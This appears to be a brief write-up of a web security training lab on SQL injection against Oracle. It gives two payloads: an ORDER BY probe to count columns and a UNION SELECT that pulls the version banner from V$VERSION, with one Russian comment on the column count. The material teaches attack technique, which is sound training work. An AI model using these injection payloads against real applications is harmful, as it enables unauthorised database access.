

# Lab: SQL injection attack, querying the database type and version on Oracle

## Description

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

## Preparations for UNION

```sql
' ORDER BY 1--
```

Продолжаем менять число, пока не получим ошибку. Ошибка случилась на 3, значит 2 столбца выводится.

## UNION SQLi

```sql
' UNION SELECT BANNER, NULL FROM V$VERSION-- 
```


